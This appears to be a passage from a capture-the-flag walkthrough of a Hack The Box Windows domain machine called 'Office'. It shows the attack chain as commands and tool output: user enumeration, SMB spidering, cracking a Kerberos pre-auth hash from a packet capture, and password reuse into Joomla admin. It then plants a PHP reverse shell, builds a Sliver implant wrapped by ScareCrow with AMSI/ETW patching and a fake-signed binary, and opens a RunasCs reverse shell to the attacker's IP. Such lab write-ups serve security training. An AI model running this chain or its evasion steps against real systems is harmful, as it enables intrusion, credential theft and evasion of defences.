 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/17/24 - Ronnie Flathers @ropnop

2024/02/17 14:26:54 >  Using KDC(s):
2024/02/17 14:26:54 >   dc.office.htb:88

2024/02/17 14:27:06 >  [+] VALID USERNAME:       administrator@office.htb
2024/02/17 14:28:21 >  [+] VALID USERNAME:       Administrator@office.htb
2024/02/17 14:28:57 >  [+] VALID USERNAME:       ewhite@office.htb
2024/02/17 14:28:57 >  [+] VALID USERNAME:       etower@office.htb
2024/02/17 14:28:57 >  [+] VALID USERNAME:       dwolfe@office.htb
2024/02/17 14:28:57 >  [+] VALID USERNAME:       dmichael@office.htb
2024/02/17 14:28:57 >  [+] VALID USERNAME:       dlanor@office.htb
```

| Username | Email |
| --- | --- |
| administrator | administrator@office.htb |
| ewhite | ewhite@office.htb |
| etower | etower@office.htb |
| dwolfe | dwolfe@office.htb |
| dmichael | dmichael@office.htb |
| dlanor | dlanor@office.htb |

## SMB Enumeration

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.241.7 -u "dwolfe" -p "H0lOgrams4reTakIng0Ver754\!" --shares
SMB         10.129.241.7    445    DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB         10.129.241.7    445    DC               [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754! 
SMB         10.129.241.7    445    DC               [*] Enumerated shares
SMB         10.129.241.7    445    DC               Share           Permissions     Remark
SMB         10.129.241.7    445    DC               -----           -----------     ------
SMB         10.129.241.7    445    DC               ADMIN$                          Remote Admin
SMB         10.129.241.7    445    DC               C$                              Default share
SMB         10.129.241.7    445    DC               IPC$            READ            Remote IPC
SMB         10.129.241.7    445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.241.7    445    DC               SOC Analysis    READ            
SMB         10.129.241.7    445    DC               SYSVOL          READ            Logon server share
```

## RID Brute Forcing

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.241.7 -u "dwolfe" -p "H0lOgrams4reTakIng0Ver754\!" --rid-brute
SMB         10.129.241.7    445    DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB         10.129.241.7    445    DC               [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754! 
SMB         10.129.241.7    445    DC               498: OFFICE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.241.7    445    DC               500: OFFICE\Administrator (SidTypeUser)
SMB         10.129.241.7    445    DC               501: OFFICE\Guest (SidTypeUser)
SMB         10.129.241.7    445    DC               502: OFFICE\krbtgt (SidTypeUser)
SMB         10.129.241.7    445    DC               512: OFFICE\Domain Admins (SidTypeGroup)
SMB         10.129.241.7    445    DC               513: OFFICE\Domain Users (SidTypeGroup)
SMB         10.129.241.7    445    DC               514: OFFICE\Domain Guests (SidTypeGroup)
SMB         10.129.241.7    445    DC               515: OFFICE\Domain Computers (SidTypeGroup)
SMB         10.129.241.7    445    DC               516: OFFICE\Domain Controllers (SidTypeGroup)
SMB         10.129.241.7    445    DC               517: OFFICE\Cert Publishers (SidTypeAlias)
SMB         10.129.241.7    445    DC               518: OFFICE\Schema Admins (SidTypeGroup)
SMB         10.129.241.7    445    DC               519: OFFICE\Enterprise Admins (SidTypeGroup)
SMB         10.129.241.7    445    DC               520: OFFICE\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.241.7    445    DC               521: OFFICE\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.241.7    445    DC               522: OFFICE\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.241.7    445    DC               525: OFFICE\Protected Users (SidTypeGroup)
SMB         10.129.241.7    445    DC               526: OFFICE\Key Admins (SidTypeGroup)
SMB         10.129.241.7    445    DC               527: OFFICE\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.241.7    445    DC               553: OFFICE\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.241.7    445    DC               571: OFFICE\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.241.7    445    DC               572: OFFICE\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.241.7    445    DC               1000: OFFICE\DC$ (SidTypeUser)
SMB         10.129.241.7    445    DC               1101: OFFICE\DnsAdmins (SidTypeAlias)
SMB         10.129.241.7    445    DC               1102: OFFICE\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.241.7    445    DC               1106: OFFICE\Registry Editors (SidTypeGroup)
SMB         10.129.241.7    445    DC               1107: OFFICE\PPotts (SidTypeUser)
SMB         10.129.241.7    445    DC               1108: OFFICE\HHogan (SidTypeUser)
SMB         10.129.241.7    445    DC               1109: OFFICE\EWhite (SidTypeUser)
SMB         10.129.241.7    445    DC               1110: OFFICE\etower (SidTypeUser)
SMB         10.129.241.7    445    DC               1111: OFFICE\dwolfe (SidTypeUser)
SMB         10.129.241.7    445    DC               1112: OFFICE\dmichael (SidTypeUser)
SMB         10.129.241.7    445    DC               1113: OFFICE\dlanor (SidTypeUser)
SMB         10.129.241.7    445    DC               1114: OFFICE\tstark (SidTypeUser)
SMB         10.129.241.7    445    DC               1117: OFFICE\GPO Managers (SidTypeGroup)
SMB         10.129.241.7    445    DC               1118: OFFICE\web_account (SidTypeUser)

```

## Password Reuse

So `dwolfe` used the same password as `tstark` and was able to logon on `SMB`. We downloaded all the files we found on the share.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb office.htb -u 'dwolfe' -p 'H0lOgrams4reTakIng0Ver754!' -M spider_plus -o DOWNLOAD_FLAG=True MAX_FILE_SIZE=99999999
SMB         10.129.241.7    445    DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB         10.129.241.7    445    DC               [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754! 
SPIDER_P... 10.129.241.7    445    DC               [*] Started module spidering_plus with the following options:
SPIDER_P... 10.129.241.7    445    DC               [*]  DOWNLOAD_FLAG: True
SPIDER_P... 10.129.241.7    445    DC               [*]     STATS_FLAG: True
SPIDER_P... 10.129.241.7    445    DC               [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_P... 10.129.241.7    445    DC               [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_P... 10.129.241.7    445    DC               [*]  MAX_FILE_SIZE: 95.37 MB
SPIDER_P... 10.129.241.7    445    DC               [*]  OUTPUT_FOLDER: /tmp/nxc_spider_plus
SMB         10.129.241.7    445    DC               [*] Enumerated shares
SMB         10.129.241.7    445    DC               Share           Permissions     Remark
SMB         10.129.241.7    445    DC               -----           -----------     ------
SMB         10.129.241.7    445    DC               ADMIN$                          Remote Admin
SMB         10.129.241.7    445    DC               C$                              Default share
SMB         10.129.241.7    445    DC               IPC$            READ            Remote IPC
SMB         10.129.241.7    445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.241.7    445    DC               SOC Analysis    READ            
SMB         10.129.241.7    445    DC               SYSVOL          READ            Logon server share 
SPIDER_P... 10.129.241.7    445    DC               [+] Saved share-file metadata to "/tmp/nxc_spider_plus/10.129.241.7.json".
SPIDER_P... 10.129.241.7    445    DC               [*] SMB Shares:           6 (ADMIN$, C$, IPC$, NETLOGON, SOC Analysis, SYSVOL)
SPIDER_P... 10.129.241.7    445    DC               [*] SMB Readable Shares:  4 (IPC$, NETLOGON, SOC Analysis, SYSVOL)
SPIDER_P... 10.129.241.7    445    DC               [*] SMB Filtered Shares:  1
SPIDER_P... 10.129.241.7    445    DC               [*] Total folders found:  38
SPIDER_P... 10.129.241.7    445    DC               [*] Total files found:    11
SPIDER_P... 10.129.241.7    445    DC               [*] File size average:    122.63 KB
SPIDER_P... 10.129.241.7    445    DC               [*] File size min:        23 B
SPIDER_P... 10.129.241.7    445    DC               [*] File size max:        1.31 MB
SPIDER_P... 10.129.241.7    445    DC               [*] File unique exts:     4 (.pol, .ini, .pcap, .inf)
SPIDER_P... 10.129.241.7    445    DC               [*] Downloads successful: 1
SPIDER_P... 10.129.241.7    445    DC               [*] Unmodified files:     10
SPIDER_P... 10.129.241.7    445    DC               [*] All files were not changed.
SPIDER_P... 10.129.241.7    445    DC               [+] All files processed successfully.
```

```c
┌──(kali㉿kali)-[/tmp/nxc_spider_plus/10.129.241.7/SOC Analysis]
└─$ ll
total 1344
-rw-r--r-- 1 kali kali 1372860 Feb 17 14:41 Latest-System-Dump-8fbc124d.pcap
```

## Extracting Hashes from .pcap File

Next we started analyzing the freshly found `.pcap` file.

```c
┌──(kali㉿kali)-[/tmp/nxc_spider_plus/10.129.241.7/SOC Analysis]
└─$ wireshark Latest-System-Dump-8fbc124d.pcap
```



We found a few hashes in the file.



We searched for information about `Kerberos`.



And then we found a `Kerberos Ticket` for `tstark`.



## Forging a Kerberos Ticket

- [https://vbscrub.com/2020/02/27/getting-passwords-from-kerberos-pre-authentication-packets/](https://vbscrub.com/2020/02/27/getting-passwords-from-kerberos-pre-authentication-packets/)

With the information from the `blog post` and from the `.pcap file`, we were able to build a valid hash.

- [https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)



```c
a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Office/files]
└─$ cat hash
$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
```

## Cracking the Hash

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Office/files]
└─$ hashcat -m 19900 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) i9-10900 CPU @ 2.80GHz, 2919/5902 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc:playboy69
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 19900 (Kerberos 5, etype 18, Pre-Auth)
Hash.Target......: $krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c56...86f5fc
Time.Started.....: Sat Feb 17 15:11:53 2024 (2 secs)
Time.Estimated...: Sat Feb 17 15:11:55 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2955 H/s (7.42ms) @ Accel:32 Loops:1024 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4864/14344385 (0.03%)
Rejected.........: 0/4864 (0.00%)
Restore.Point....: 4736/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:3072-4095
Candidate.Engine.: Device Generator
Candidates.#1....: venus -> denis
Hardware.Mon.#1..: Util: 93%

Started: Sat Feb 17 15:11:00 2024
Stopped: Sat Feb 17 15:11:55 2024
```

| Username | Password |
| ---- | ---- |
| tstark | playboy69 |

## Access to Joomla

As next step we reused the password from `tstark` to access `Joomla` as `Administrator`.

- [http://10.129.241.7/administrator/index.php](http://10.129.241.7/administrator/index.php)

| Username | Password |
| ---- | ---- |
| Administrator | playboy69 |

## Foothold

From `Joomla` we went over to `System > Templates > Cassiopeia Details and Files` to edit the `error.php`

- [https://github.com/ivan-sincek/php-reverse-shell](https://github.com/ivan-sincek/php-reverse-shell)



The payload could be triggered by simply accessing the `error.php` file.

- [http://10.129.241.7/templates/cassiopeia/error.php](http://10.129.241.7/templates/cassiopeia/error.php)

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [10.10.16.26] from (UNKNOWN) [10.129.241.7] 57962
SOCKET: Shell has connected! PID: 2300
Microsoft Windows [Version 10.0.20348.2322]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\joomla\templates\cassiopeia>
```

## Persistence

```c
┌──(kali㉿kali)-[~]
└─$ sliver       
Connecting to localhost:31337 ...

          ██████  ██▓     ██▓ ██▒   █▓▓█████  ██▀███
        ▒██    ▒ ▓██▒    ▓██▒▓██░   █▒▓█   ▀ ▓██ ▒ ██▒
        ░ ▓██▄   ▒██░    ▒██▒ ▓██  █▒░▒███   ▓██ ░▄█ ▒
          ▒   ██▒▒██░    ░██░  ▒██ █░░▒▓█  ▄ ▒██▀▀█▄
        ▒██████▒▒░██████▒░██░   ▒▀█░  ░▒████▒░██▓ ▒██▒
        ▒ ▒▓▒ ▒ ░░ ▒░▓  ░░▓     ░ ▐░  ░░ ▒░ ░░ ▒▓ ░▒▓░
        ░ ░▒  ░ ░░ ░ ▒  ░ ▒ ░   ░ ░░   ░ ░  ░  ░▒ ░ ▒░
        ░  ░  ░    ░ ░    ▒ ░     ░░     ░     ░░   ░
                  ░      ░  ░ ░        ░     ░  ░   ░

All hackers gain vigilance
[*] Server v1.5.41 - f2a3915c79b31ab31c0c2f0428bbd53d9e93c54b
[*] Welcome to the sliver shell, please type 'help' for options

[*] Check for updates with the 'update' command

sliver >
```

```c
sliver > generate --mtls 10.10.16.26 --os windows --arch amd64 --format shellcode --disable-sgn --skip-symbols --name lock-http --save /tmp/

[*] Generating new windows/amd64 implant binary
[!] Symbol obfuscation is disabled
[*] Build completed in 16s
[!] Shikata ga nai encoder is disabled
[*] Implant saved to /tmp/lock-http.bin
```

```c
┌──(kali㉿kali)-[~/opt/payloads/ScareCrow]
└─$ ./ScareCrow -I /tmp/lock-http.bin -Loader binary -domain office.htb
 
  _________                           _________                       
 /   _____/ ____ _____ _______   ____ \_   ___ \_______  ______  _  __
 \_____  \_/ ___\\__  \\_  __ \_/ __ \/    \  \/\_  __ \/  _ \ \/ \/ /
 /        \  \___ / __ \|  | \/\  ___/\     \____|  | \(  <_> )     / 
/_______  /\___  >____  /__|    \___  >\______  /|__|   \____/ \/\_/  
        \/     \/     \/            \/        \/                      
                                                        (@Tyl0us)
        “Fear, you must understand is more than a mere obstacle. 
        Fear is a TEACHER. the first one you ever had.”

[*] Encrypting Shellcode Using ELZMA Encryption
[+] Shellcode Encrypted
[+] Patched ETW Enabled
[+] Patched AMSI Enabled
[+] Sleep Timer set for 2277 milliseconds 
[*] Creating an Embedded Resource File
[+] Created Embedded Resource File With OneNote's Properties
[*] Compiling Payload
[+] Payload Compiled
[*] Signing OneNote.exe With a Fake Cert
[+] Signed File Created
[+] Binary Compiled
[!] Sha256 hash of OneNote.exe: 489b0d5edd0d2c1ba6306c54b82fb8677d88bd81313764200c0c4c52955aaa71
```

```c
sliver > mtls

[*] Starting MTLS :8888 listener ...
[*] Successfully started job #1
```

```c
[*] Session 551f9830 lock-http - 10.129.241.7:58012 (DC) - windows/amd64 - Sat, 17 Feb 2024 15:29:48 EST

sliver >
```

```c
sliver > use 551f9830-9570-4aa8-8e92-eb0babfc20f5

[*] Active session lock-http (551f9830-9570-4aa8-8e92-eb0babfc20f5)

sliver (lock-http) >
```

```c
sliver (lock-http) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 6696

PS C:\xampp\htdocs\joomla\templates\cassiopeia>
```

## Enumeration

```c
C:\xampp\htdocs\joomla\templates\cassiopeia>whoami
office\web_account
```

```c
C:\xampp\htdocs\joomla\templates\cassiopeia>whoami /all

USER INFORMATION
----------------

User Name          SID                                          
================== =============================================
office\web_account S-1-5-21-1199398058-4196589450-691661856-1118


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                        
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## Privilege Escalation to tstark

From the `web_account` user we utilized `RunasCs` to spawn a shell as `tstark`.

- [https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs)

```c
C:\xampp\htdocs\joomla\templates\cassiopeia> RunasCs.exe tstark playboy69 powershell -r 10.10.16.26:6969
```

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 6969
listening on [any] 6969 ...
connect to [10.10.16.26] from (UNKNOWN) [10.129.241.7] 58021
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> whoami
whoami
office\tstark
```

## Pivoting

```c
PS C:\Windows\system32> whoami /all
whoami /all

USER INFORMATION
----------------

User Name     SID                                          
============= =============================================
office\tstark S-1-5-21-1199398058-4196589450-691661856-1114


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes                                        
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Group used for deny only                          
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
OFFICE\Registry Editors                    Group            S-1-5-21-1199398058-4196589450-691661856-1106 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                     


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## user.txt

```c
PS C:\Users\tstark\Desktop> type user.txt
type user.txt
5f98ae170df0d99b0eda0b12cd2960ad
```

## More Pivoting

### Seatbelt

```c
sliver (lock-http) > seatbelt -- -group=system

[*] seatbelt output:


                        %&&@@@&&                                                                                  
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%                         
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################                        
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*                         
                        &%%&&&%%%%%        v1.2.1         ,(((&%%%%%%%%%%%%%%%%%,                                 
                         #%%%%##,                                                                                 


====== AMSIProviders ======

====== AntiVirus ======

Cannot enumerate antivirus. root\SecurityCenter2 WMI namespace is not available on Windows Servers
====== AppLocker ======

  [*] AppIDSvc service is Stopped

    [*] Applocker is not running because the AppIDSvc is not running

  [*] AppLocker not configured
====== ARPTable ======

  Loopback Pseudo-Interface 1 --- Index 1
    Interface Description : Software Loopback Interface 1
    Interface IPs      : ::1, 127.0.0.1
    DNS Servers        : fec0:0:0:ffff::1%1, fec0:0:0:ffff::2%1, fec0:0:0:ffff::3%1

    Internet Address      Physical Address      Type
